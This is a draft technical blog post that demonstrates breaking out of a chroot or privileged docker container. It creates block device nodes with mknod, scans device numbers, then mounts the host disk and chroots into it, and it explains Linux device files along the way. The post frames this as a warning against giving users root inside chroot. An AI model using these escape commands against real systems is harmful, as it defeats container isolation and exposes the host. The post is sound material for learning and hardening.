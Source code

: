 Hacking the chroot/docker
#########################

:keywords: linux, chroot, hacking, docker
:tags: linux, chroot, hacking, docker
:date: 2019-01-19
:Status: draft
:slug: chroot-breaking-1
:lang: en

In this post I'm going to access supervisor's filesystem when having *root* in *chroot*.
With that, I want to show you, why you should never give root access to users in *chroot*.

Crash course
------------

{% youtube TQRcC2OEHn8 320 180 %}

Because *docker* (like most of container technologies) uses *chroot*, exiting a *chroot* or *docker* will use the same technique.
Presented method need root access in docker run as *privileged* (in case you use docker).

.. code-block:: console

    # docker run -it --privileged centos /bin/bash
    # mknod /tmp/host_disk b 259 1
    # mount /tmp/host_disk /mnt/
    # chroot /mnt/ /bin/bash

Method description
------------------

{% youtube CVRyg4fYdq4 320 180 %}

This method uses *chroot* to the supervisor's *filesystem*.
Usually, we don't have ``/dev/`` directory in *chroot*, so we cannot mount host *filesystem* and we have to create special device file manually.

In Linux devices are represented by special files.
Two, the most important, device types are block devices and character devices.
Character devices are devices which communicates by single char at a time and block devices are devices which communicates with blocks.

Usually, character devices let only read and write.
These devices are ex. mouse, keyboard, ``/dev/random``, pseudoterminal.
Block devices let you random access to device.
These devices are ex. hard disk, cdrom.

Every device special file is defined by three parameters:

- type: block or character device
- major: major device number
- minor: minor device number

Linux kernel using type, major and minor knows which driver should handle device operations.
Full list of defined majors and minors is defined in `linux kernel documentation`_

You can use ``mknod`` to create device special file.
But, there is a catch.
Because, we have to know major and minor numbers of device we want to create, we have to *guess* them.
We can use documentation to know, that IDE hard disk have major 3, SCSI major 8 and so on.
This well know values are good starting points while looking for device with hosts *filesystem*.
If it's not any of them, we have to loop over all possible devices.

.. code-block:: console

    # docker run --rm -it --privileged centos /bin/bash
    # mkdir /tmp/devices
    # cd /tmp/devices/
    # for i in $(seq 1 300); do mknod device_$i b $i 0; done
    # ls -l
    brw-r--r--. 1 root root   1, 0 Feb 10 16:57 device_1
    brw-r--r--. 1 root root  10, 0 Feb 10 16:57 device_10
    brw-r--r--. 1 root root 100, 0 Feb 10 16:57 device_100
    brw-r--r--. 1 root root 101, 0 Feb 10 16:57 device_101
    brw-r--r--. 1 root root 102, 0 Feb 10 16:57 device_102
    brw-r--r--. 1 root root 103, 0 Feb 10 16:57 device_103
    brw-r--r--. 1 root root 104, 0 Feb 10 16:57 device_104
    (...)
    # fdisk  -l * 2>/dev/null
    Disk device_1: 16 MB, 16777216 bytes, 32768 sectors
    Units = sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    
    Disk device_253: 44.0 GB, 44023414784 bytes, 85983232 sectors
    Units = sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    Disk label type: dos
    Disk identifier: 0x0009b93d
    
          Device Boot      Start         End      Blocks   Id  System
    device_253p1   *        2048    83886079    41942016   83  Linux

As we can se, there are only two existing block devices: ``device_1`` and ``device_253``.
``device_1`` is ``RAM disk``, so it's not what we are looking for.
The next one looks like host *filesystem* device.
If case we didn't find any device, we should try looking for minor different than 0.
Because minor 0 is used for whole drive, and we want to access specific partition, we have to create device for specific partition.

.. code-block:: console

    # mknod device_253_1 b 253 1

Now, when we have device for host root *filesystem*, we can mount that partition and ``chroot``.

.. code-block:: console

    # mount device_253_1 /mnt/
    # chroot /mnt/ /bin/bash

And now we have broken chroot and access host *filesystem*.


.. _linux kernel documentation: https://github.com/torvalds/linux/blob/master/Documentation/admin-guide/devices.txt
